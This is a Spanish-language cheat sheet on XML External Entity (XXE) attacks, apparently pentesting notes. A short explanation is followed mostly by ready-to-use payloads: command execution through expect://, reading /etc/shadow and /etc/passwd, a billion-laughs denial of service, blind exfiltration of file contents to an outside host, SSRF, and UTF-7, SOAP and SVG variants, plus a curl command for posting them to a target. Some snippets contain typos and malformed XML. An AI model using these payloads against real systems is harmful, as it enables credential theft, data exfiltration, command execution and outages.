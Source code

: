 Una de las vulnerabilides web más importantes referidas a XML es XXE. XML Exernal Entity es una vulnerabilidad que pueden tener los servidores web que reciben valores de entrada en formato XML. En muchas ocasiones, estos servidores hacer uso de librerías como "parserxml"  para parsear el contenido.

El ataque XXE consiste en la manipulación de un fichero xml malicioso que al ser parseado nos brinde un acceso al ejecutar comandos.

El ataque XXE es un tipo de ataque contra una aplicación web que parsea entradas xml. Esto ocurre cuando la entrada contiene una referencia a una entidad externa que es procesada por una débil configuración. Este ataque podría permitir la exposición de datos confidenciales, DoS, SSRF (Server Side Request Forgery), escaneo de puertos desde la perspectiva de la máquina donde el parser está localizado, etc.

Para probar el servidor web de una máquina objetivo para ver si procesa los ficheros xml, podemos enviarle como prueba inicial un fichero test.txt con una estructura xml en su interior. Utilizando curl podemos enviarlo mediante una solicitud POST:
`curl -d @test.txt http://10.10.10.98/hosts.php`

Fichero xml malicioso:
``` XML
<?xml version="1.0" encoding="ISO-8859-1">
>!DOCTYPE foo [ <!ELEMENT foo ANY >
	<!ENTITY xxe SYSTEM "expect://id" >] >
<details>
	<subnet_mask>&xxe;</subnet_mask>
	<test></test>
</details>
```

** Otros wrappers para ejecutar comandos **
XXE: Basic XML Example

``` XML
<!--?xml version="1.0" ?-->
<userInfo>
 <firstName>John</firstName>
 <lastName>Doe</lastName>
</userInfo>
```

XXE: Entity Example

```XML
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
```

XXE: File Disclosure

``` XML
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>
<userInfo>
 <firstName>John</firstName>
 <lastName>&ent;</lastName>
</userInfo>
```

XXE: Denial-of-Service Example

``` XML
<!--?xml version="1.0" ?-->
<!DOCTYPE lolz [<!ENTITY lol "lol"><!ELEMENT lolz (#PCDATA)>
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
<tag>&lol9;</tag>
```

)XXE: Local File Inclusion Example

``` XML
<?xml version="1.0"?>
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>
```

XXE: Blind Local File Inclusion Example (When first case doesn't return anything.)

``` XML
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo (#ANY)>
<!ENTITY % xxe SYSTEM "file:///etc/passwd">
<!ENTITY blind SYSTEM "https://www.example.com/?%xxe;">]><foo>&blind;</foo>
```

XXE: Access Control Bypass (Loading Restricted Resources - PHP example)

``` XML
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ENTITY ac SYSTEM "php://filter/read=convert.base64-encode/resource=http://example.com/viewlog.php">]>
<foo><result>&ac;</result></foo>
```

XXE:SSRF ( Server Side Request Forgery ) Example

``` XML
<?xml version="1.0"?>
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "https://www.example.com/text.txt">]><foo>&xxe;</foo>
```

XXE: (Remote Attack - Through External Xml Inclusion) Exmaple

``` XML
<?xml version="1.0"?>
<!DOCTYPE lolz [
<!ENTITY test SYSTEM "https://example.com/entity1.xml">]>
<lolz><lol>3..2..1...&test<lol></lolz>
```

XXE: UTF-7 Exmaple

``` XML
<?xml version="1.0" encoding="UTF-7"?>
+ADwAIQ-DOCTYPE foo+AFs +ADwAIQ-ELEMENT foo ANY +AD4
+ADwAIQ-ENTITY xxe SYSTEM +ACI-http://hack-r.be:1337+ACI +AD4AXQA+
+ADw-foo+AD4AJg-xxe+ADsAPA-/foo+AD4
```

XXE: Base64 Encoded

``` XML
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
```

XXE: XXE inside SOAP Example

``` XML
<soap:Body>
  <foo>
    <![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]>
  </foo>
</soap:Body>
```

XXE: XXE inside SVG
 
``` XML
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls"></image>
</svg>
```